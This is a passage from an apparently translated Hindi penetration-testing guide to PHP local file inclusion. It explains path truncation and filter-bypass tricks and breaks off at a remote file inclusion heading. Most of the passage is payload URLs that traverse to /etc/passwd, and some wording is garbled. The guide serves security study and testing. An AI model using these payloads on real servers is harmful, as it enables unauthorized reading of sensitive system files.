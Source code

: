 ```bash
http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd
```
### **पथ कटौती तकनीक**

पथ कटौती एक विधि है जिसका उपयोग वेब एप्लिकेशन में फ़ाइल पथ को मानिपुर्थ करने के लिए किया जाता है। इसका उपयोग अक्सर किया जाता है ताकि निश्चित सुरक्षा उपायों को छलकर फ़ाइल पथ के अंत में अतिरिक्त वर्ण जोड़ने के द्वारा प्रतिबंधित फ़ाइलों तक पहुँचा जा सके। लक्ष्य एक फ़ाइल पथ तैयार करना है जो सुरक्षा उपाय द्वारा संशोधित किया जाए, फिर भी वांछित फ़ाइल की ओर पहुँचाए।

PHP में, फ़ाइल पथ के विभिन्न प्रतिनिधित्व को बराबर माना जा सकता है क्योंकि फ़ाइल सिस्टम की प्रकृति के कारण। उदाहरण के लिए:

* `/etc/passwd`, `/etc//passwd`, `/etc/./passwd`, और `/etc/passwd/` सभी को एक ही पथ के रूप में देखा जाता है।
* जब आखिरी 6 वर्ण `passwd` होते हैं, तो `/` जोड़ना (`passwd/` बनाना) लक्षित फ़ाइल को बदल नहीं देता।
* उसी तरह, अगर फ़ाइल पथ में `.php` जोड़ा जाता है (जैसे `shellcode.php`), तो फ़ाइल तक पहुँचने में कोई परिवर्तन नहीं होगा।

प्रदत्त उदाहरण दिखाते हैं कि `/etc/passwd` तक पहुँचने के लिए पथ कटौती का उपयोग कैसे किया जा सकता है, जो एक सामान्य लक्ष्य है क्योंकि इसमें संवेदनशील सामग्री होती है (उपयोगकर्ता खाता जानकारी)।
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd......[ADD MORE]....
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
```

```
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```
इन परिदृश्यों में, आवश्यकता होने वाली ट्रावर्सल्स की संख्या लगभग 2027 हो सकती है, लेकिन यह संख्या सर्वर के कॉन्फ़िगरेशन पर निर्भर कर सकती है।

* **डॉट सेगमेंट्स और अतिरिक्त वर्ण**: ट्रावर्सल सिक्वेंसेस (`../`) को अतिरिक्त डॉट सेगमेंट्स और वर्णों के साथ मिलाकर फ़ाइल सिस्टम में नेविगेट करने के लिए उपयोग किया जा सकता है, सर्वर द्वारा जोड़ी गई स्ट्रिंग्स को प्रभावी रूप से नजरअंदाज करते हुए।
* **आवश्यक ट्रावर्सल्स की संख्या का निर्धारण**: प्रयोग और त्रुटि के माध्यम से, कोई भी जान सकता है कि रूट निर्देशिका और फिर `/etc/passwd` तक नेविगेट करने के लिए आवश्यक `../` सिक्वेंसेस की सटीक संख्या क्या है, सुनिश्चित करते हुए कि कोई भी जोड़ी गई स्ट्रिंग्स (जैसे `.php`) को न्यूट्रलाइज़ किया जाता है लेकिन वांछित पथ (`/etc/passwd`) अटूट रहता है।
* **एक नकली निर्देशिका के साथ शुरू करना**: एक अस्तित्व न रखने वाली निर्देशिका के साथ पथ की शुरुआत करना एक सामान्य अभ्यास है (जैसे `a/`)। यह तकनीक एक सावधानिक उपाय के रूप में या सर्वर के पथ पार्सिंग तर्क की आवश्यकताओं को पूरा करने के लिए उपयोग किया जाता है।

पथ कटौती तकनीकों का उपयोग करते समय, सर्वर के पथ पार्सिंग व्यवहार और फ़ाइल सिस्टम संरचना को समझना महत्वपूर्ण है। प्रत्येक परिदृश्य कोई भिन्न दृष्टिकोण की आवश्यकता हो सकती है, और सबसे प्रभावी विधि खोजने के लिए अक्सर परीक्षण आवश्यक होता है।

**यह सुरक्षा दोष PHP 5.3 में सुधारा गया था।**

### **फ़िल्टर बाइपास ट्रिक्स**
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```
## रिमोट फ़ाइल समावेश
